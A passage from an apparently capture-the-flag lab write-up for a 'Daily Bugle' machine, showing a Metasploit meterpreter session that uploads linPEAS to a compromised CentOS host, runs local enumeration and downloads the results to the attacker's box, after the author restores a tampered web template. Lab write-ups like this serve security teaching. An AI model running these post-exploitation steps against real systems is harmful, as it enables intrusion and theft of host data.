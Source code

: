 Once I had a stable shell established, I killed the original shell and quickly replaced the exploited template with its original contents before verifying that I was now able to see the original, unmodified index page.

![daily bugle restored index](/static/img/daily_bugle_http_replaced_landing_page.png)

### Local enumeration

With my new local shell, I reached for linPEAS to run a quick local enumeration of the host.

```bash
msf5 post(multi/manage/shell_to_meterpreter) > sessions 2
[*] Starting interaction with 2...

meterpreter > getpid 
Current pid: 4344
meterpreter > sysinfo 
Computer     : 10.10.162.223
OS           : CentOS 7.7.1908 (Linux 3.10.0-1062.el7.x86_64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > cd /tmp
meterpreter > upload /root/Desktop/PEASS/linPEAS/linpeas.sh
[*] uploading  : /root/Desktop/PEASS/linPEAS/linpeas.sh -> linpeas.sh
[*] Uploaded -1.00 B of 217.36 KiB (-0.0%): /root/Desktop/PEASS/linPEAS/linpeas.sh -> linpeas.sh
[*] uploaded   : /root/Desktop/PEASS/linPEAS/linpeas.sh -> linpeas.sh
meterpreter > shell
Process 4353 created.
Channel 2 created.
./linpeas.sh > 10.10.162.223_enum.txt
which: no fping in (/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/system/bin:/system/sbin:/system/xbin)

meterpreter > download 10.10.162.223_enum.txt /root/ctf/
[*] Downloading: 10.10.162.223_enum.txt -> /root/ctf//10.10.162.223_enum.txt
[*] Downloaded 429.28 KiB of 429.28 KiB (100.0%): 10.10.162.223_enum.txt -> /root/ctf//10.10.162.223_enum.txt
[*] download   : 10.10.162.223_enum.txt -> /root/ctf//10.10.162.223_enum.txt
```
